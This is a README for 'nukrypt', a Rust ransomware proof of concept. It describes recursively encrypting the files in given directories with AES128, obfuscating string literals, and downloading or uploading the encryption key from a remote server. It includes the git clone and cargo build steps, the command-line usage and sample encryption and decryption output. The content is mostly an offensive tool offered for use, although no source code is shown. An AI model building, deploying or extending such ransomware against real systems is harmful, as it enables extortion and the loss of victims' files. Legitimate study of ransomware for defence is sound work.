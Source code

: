 nukrypt
=======
A ransomware PoC written in Rust. `nukrypt` will recursively traverse all directories given to it as CLI arguments and encrypt files using AES128. The 128-bit key is generated at runtime and dropped at the current working directory (if it does not exist). The AES IV is written to the beginning of each encrypted file. Encrypted files are suffixed with `.nukrypt`.


Features
--------
- AES128
- Literal encryption using [litcrypt](https://docs.rs/litcrypt/latest/litcrypt/)
- Download or upload AES key from a remote server.
- Some safeguards to prevent unintended data loss.


Compilation
-----------
- Simply `git clone` the repository and `cargo build` the project:
```
$ git clone https://github.com/hiatus/nukrypt
$ cd nukrypt
$ cargo build --release
```


Usage
-----
- Command line banner:
```
USAGE:
    nukrypt [FLAGS] [OPTIONS] <dir>...

FLAGS:
    -d, --decrypt    Decrypt instead of encrypting
    -h, --help       Prints help information
    -V, --version    Prints version information

OPTIONS:
    -k, --key-file <file|url>    Read/write AES key from/to [file] or download/upload from/to [url]

ARGS:
    <dir>...    Folder(s) to recursively encrypt or decrypt
```

### Encrypt
In encryption mode (not specifying the `-d` option), `nukrypt` will first attempt to read the key either from a remote server or from a local file (depending on what was given as argument to `-k`). If the key cannot be read, it will generate it and either upload it or save it locally (in the URL or path given). After this, all `dir`s will be recursively encrypted.

```
$ nukrypt -k nukrypt.key ./encrypt-me/
[+] Encryption key written to nukrypt.key

[#] Encrypting: ./encrypt-me/notes.txt
[#] Encrypting: ./encrypt-me/project/curriculum.pdf
[#] Encrypting: ./encrypt-me/project/accounting.xlsx

[+] 3 files encrypted in 0.002 seconds
```

### Decrypt
When called with option `-d`, `nukrypt` will attempt to read the key either from a remote server or from a local file and recursively decrypt all `dir`s.
```
$ nukrypt -dk nukrypt.key ./encrypt-me/
[+] AES key read from nukrypt.key

[#] Decrypting: ./encrypt-me/notes.txt.nukrypt
[#] Decrypting: ./encrypt-me/project/curriculum.pdf.nukrypt
[#] Decrypting: ./encrypt-me/project/accounting.xlsx.nukrypt

[+] 3 files decrypted in 0.000 seconds
```

